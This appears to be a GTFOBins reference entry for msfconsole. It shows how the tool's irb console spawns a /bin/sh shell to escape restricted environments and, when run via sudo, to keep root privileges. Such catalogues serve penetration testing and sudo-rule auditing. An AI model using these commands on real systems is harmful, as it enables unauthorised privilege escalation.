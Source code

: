 # GTFOBin: msfconsole

This allows to spawn a `ruby` interpreter.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
sudo msfconsole
msf6 > irb
>> system("/bin/sh")
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo msfconsole
msf6 > irb
>> system("/bin/sh")
```